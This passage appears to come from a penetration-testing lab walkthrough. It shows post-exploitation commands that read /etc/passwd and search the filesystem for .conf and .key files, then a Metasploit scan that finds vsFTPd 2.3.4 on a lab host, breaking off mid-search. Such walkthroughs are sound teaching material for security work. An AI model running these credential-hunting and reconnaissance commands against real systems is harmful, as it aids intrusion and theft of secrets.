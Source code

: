    cat /etc/issue

   # Check for sensitive files

   find / -name "*.conf" -type f 2>/dev/null

   find / -name "*.key" -type f 2>/dev/null

   # Check for other users

   cat /etc/passwd

   ```

   ![SSH Post Exploitation](/images/ssh-post-exploitation.png)
---

### FTP Exploitation Example

1. **FTP Service Identification and Exploitation**:
   First, we identify an open FTP port (21/TCP) and check the version:

   ```bash

   msf6 > use auxiliary/scanner/ftp/ftp_version

   msf6 auxiliary(scanner/ftp/ftp_version) > set RHOSTS 192.168.74.162

   RHOSTS => 192.168.74.162

   msf6 auxiliary(scanner/ftp/ftp_version) > run

   [+] 192.168.74.162:21 - FTP Banner: '220 (vsFTPd 2.3.4)\x0d\x0a'

   [*] 192.168.74.162:21 - Scanned 1 of 1 hosts (100% complete)

   [*] Auxiliary module execution completed

   ```

![[Pasted image 20250408094640.png]]
  
After identifying the vulnerable vsFTPd 2.3.4 version, we search for related exploits:

   ```bash

   msf6 auxiliary(scanner/ftp/ftp_version) > search vsFTPd

   Matching Modules

   ================

   # Name Disclosure Date Rank Check Description

   - ---- --------------- ---- ----- -----------
